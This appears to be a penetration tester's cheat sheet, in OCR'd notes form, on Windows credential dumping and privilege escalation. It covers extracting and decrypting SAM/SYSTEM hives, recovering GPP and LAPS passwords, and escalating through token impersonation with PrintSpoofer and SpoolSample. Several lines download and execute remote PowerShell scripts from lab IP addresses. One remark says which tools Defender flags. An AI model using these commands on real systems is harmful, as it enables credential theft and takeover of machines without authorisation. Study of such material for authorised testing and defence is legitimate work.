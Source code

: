                 cd C:\ & dir /S /B SAM == SYSTEM == SAM.OLD == SYSTEM.OLD == SAM.BAK == SYSTEM.BAK
            //Other methods - https://www.thehacker.recipes/a-d/movement/credentials/dumping/sam-and-lsa-secrets
        //Decrypting it:
            secretsdump.py -sam SAM -system SYSTEM LOCAL
            //or:  samdump2 SYSTEM SAM

    //Microsoft Hardening Local Admin accounts
        //Server 2008: Group Policy Preferences (GPP) - update local admin passwords via Sysvol .xml file
            //Locate and Decrypt (could still exist):  Get-GPPPassword.ps1
                IEX(New-Object Net.Webclient).DownloadString('http://192.168.45.215/Get-GPPPassword.ps1')
            //Metasploit:  post/windows/gather/credentials/gpp
            //Decrypt a cpassword:  gpp-decrypt <cpassword>
        //2015: replaced GPP with Local Administrator Password Solution (LAPS) - added ms-mcs-AdmPwdExpirationTime and ms-mcs-AdmPwd fields to AD
            //If LAPS is not enabled, check for local credential reuse
            //If LAPS is in use, we should try to gain access to the clear text passwords in Active Directory
                //LAPSToolkit.ps1:
                        //IEX(New-Object Net.Webclient).DownloadString('http://192.168.45.215/LAPSToolkit.ps1')
                    Import-Module .\LAPSToolkit.ps1
                    Get-LAPSComputers               //might show blank pw if not allowed
                    Find-AdmPwdExtendedRights
                    Find-LAPSDelegatedGroups        //see what groups are allowed to view it
                        //Check group members w/ PowerView.ps1:  Get-NetGroupMember -Identity "LAPS Password Readers" -Recurse
                            ***target these users!
            //Metasploit:
                use post/windows/gather/credentials/enum_laps

#### Access Tokens (and Privesc)

    //Theory:
        //created upon authentication, linked to user through SID
        //4 Integrity Levels: low, medium, high, system
            //local Admin regulated by UAC has 2 tokens - medium and high
        //Token also contains privileges - Bitmask #1 is the token's privilege set; and Bitmask #2 (modifiable) is which privs are enabled currently
            //View current privileges:  whoami /priv
            //modify privs:  secpol.msc
        //Impersonation tokens - have 4 levels - Anonymous, Identification, Impersonation, Delegation

    //Elevation w/ Impersonation:
        //SeImpersonatePrivilege/SeAssignPrimaryTokenPrivilege
            //Network Service account, LocalService account, and default IIS account have it assigned by default - allows for privesc
        ***
            Windows Server 2019: either RoguePotato or PrintSpoofer should work
                RoguePotato requires access to second machine and is more complex
            Juicy Potato only works up to Windows Server 2016
            FaxHell only works in context of Network Service
            Beans technique only works on desktop editions
        ***
        //To Test:
                psexec64 -i -u "NT AUTHORITY\Network Service" cmd.exe
        ex. PrintSpoofer/SpoolSample:
            //Check if spooler service is running:  Get-Service Spooler
                //or:  dir \\cdc01\pipe\spoolss
            //Defender will flag PrintSpoofer by default, but SpoolSample and PrintSpooferNet/SharpPrintSpoofer should be fine
            //Method 1 - Manual (SharpPrintSpoofer.exe):
                //Step 1:  SharpPrintSpoofer.exe \\.\pipe\test\pipe\spoolss cmd -i
                    or:  \\.\pipe\test\pipe\spoolss "powershell -exec bypass -c iex(new-object net.webclient).downloadstring('http://10.10.13.37/run.txt')"
                //Step 2:  SpoolSample.exe <TGThostname> <CAPTUREhostname>/pipe/test 
                    Or:  .\MS-RPRN.exe \\<TGThostname> \\<CAPTUREhostname>/pipe/test
